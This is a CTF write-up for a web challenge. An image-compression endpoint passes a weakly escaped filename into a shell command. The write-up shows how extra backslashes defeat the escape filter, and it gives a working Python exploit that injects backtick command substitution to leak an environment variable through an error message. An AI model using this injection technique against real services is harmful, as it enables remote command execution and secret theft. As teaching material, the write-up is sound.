

## image-compress-revenge  

Category: Web  
Difficulty: beginner  

they called it "revenge" because the chall server kept crashing  


We are given a webpage that allows us to compress images.  


The Dockerfile shows that the flag is stored as an environment variable.  

```dockerfile
ENV FLAG=TSGCTFDUMMY{}
ENV PORT=3000

CMD ["bun", "run", "server.ts"]
```

In the `/compress` endpoint, we can immediately notice a command injection vulnerability in the filename.  

```typescript
const app = new Elysia()
	...
	.post(
		"/compress",
		async ({ body, set }) => {
			const { image, quality } = body;

			if (image.name.includes("..")) {
				throw new Error(`Invalid file name: ${image.name}`);
			}

			const inputPath = `./tmp/inputs/${escape(image.name)}`;
			const outputPath = `./tmp/outputs/${escape(image.name)}`;
			console.log(escape(image.name));

			try {
				await Bun.write(inputPath, image);

				await run(
					`magick "${inputPath}" -quality ${quality} -strip "${outputPath}"`,
				);

				const compressed = await Bun.file(outputPath).arrayBuffer();

				set.headers["Content-Type"] = image.type;
				set.headers["Content-Disposition"] =
					`attachment; filename="${image.name}"`;

				return new Response(compressed);
			} catch (error) {
				set.status = 500;
				return { error: `Failed to compress image: ${error}` };
			} finally {
				await unlink(inputPath).catch(() => {});
				await unlink(outputPath).catch(() => {});
			}
		},
        ...
```

The backend implements a simple filter which just escapes blacklisted characters with `/`.  

```typescript
const CHARS_TO_ESCAPE = "$'\"(){}[]:;/&`~|^!? \n".split("");

export function escape(source: string): string {
	let s = source;
	for (const char of CHARS_TO_ESCAPE) {
		s = s.replaceAll(char, "\\" + char);
	}
	return s;
}
```

Using command injection to execute `echo $FLAG` will result in an invalid path, which will cause `magick` to throw an error with the flag inside.  

Since `"` will be URL-encoded in the filename, we can use command substitution instead. To bypass the character escaping, we just need to prepend `\` to blacklisted characters to "escape" the escaping.  

`magick` also has some checks for the image file, so we just need to add `.png` as an extension to our filename and add the PNG header to our file contents.  

```python
import requests
import re

url = "http://35.221.67.248:10502/"

payload = '\\`echo $FLAG\\`.png'.replace(" ", "\t")

res = requests.post(f"{url}/compress", files={
    "image": (payload, bytes([0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A]), 'image/png')
}, data={ "quality": 85 })

print(res.text)
```

Running the script above will then leak the flag.  



Flag: `TSGCTF{d0llar_s1gn_1s_mag1c_1n_sh3ll_env1r0nm3nt_and_r3ad0nly_15_r3qu1r3d_f0r_c0mmand_1nj3c710n_chall3ng35}`